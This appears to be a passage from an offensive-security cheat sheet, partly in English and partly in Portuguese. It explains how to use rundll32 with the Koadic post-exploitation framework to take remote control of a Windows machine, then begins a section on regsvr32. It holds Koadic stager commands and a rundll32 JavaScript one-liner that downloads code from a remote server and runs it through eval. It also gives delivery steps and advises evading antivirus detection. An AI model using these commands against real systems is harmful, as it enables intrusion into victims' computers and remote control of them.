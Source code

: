 Rundll32 is a Windows utility that allows the execution of DLL files as functions. This can be leveraged by hackers to load malicious DLLs and execute their code. Koadic is a post-exploitation tool that utilizes the Rundll32 technique to establish a command and control channel on a compromised Windows machine.

To use Rundll32 with Koadic, follow these steps:

1. Generate a payload using Koadic. This payload will be a DLL file containing the malicious code you want to execute on the target machine.

2. Transfer the generated payload to the target machine. This can be done using various methods such as email, USB drives, or exploiting vulnerabilities in other software.

3. Open a command prompt on the target machine and run the following command to execute the payload using Rundll32:

```
rundll32.exe <path_to_payload.dll>,<entry_point_function>
```

Replace `<path_to_payload.dll>` with the path to the transferred payload DLL file, and `<entry_point_function>` with the name of the function within the DLL that you want to execute.

4. Once the payload is executed, Koadic will establish a command and control channel, allowing you to remotely control the compromised machine and perform various post-exploitation activities.

It is important to note that the Rundll32 technique can be detected by antivirus software, so it is crucial to use evasion techniques to bypass detection. Additionally, this technique requires initial access to the target machine, either through a vulnerability or social engineering.
```bash
use stager/js/rundll32_js
set SRVHOST 192.168.1.107
set ENDPOINT sales
run
#Koadic will tell you what you need to execute inside the victim, it will be something like:
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://10.2.0.5:9997/ownmG",false);x.send();eval(x.responseText);window.close();
```
## Regsvr32

O comando `regsvr32` é uma ferramenta do Windows que permite registrar e desregistrar bibliotecas de vínculo dinâmico (DLLs) e controles ActiveX no sistema operacional. Essa ferramenta é comumente usada por hackers para executar código malicioso em um sistema comprometido.

### Uso básico

Para registrar uma DLL usando o `regsvr32`, você pode usar o seguinte comando:

```
regsvr32 <caminho_para_dll>
```

Para desregistrar uma DLL, você pode usar o seguinte comando:

```
regsvr32 /u <caminho_para_dll>
```
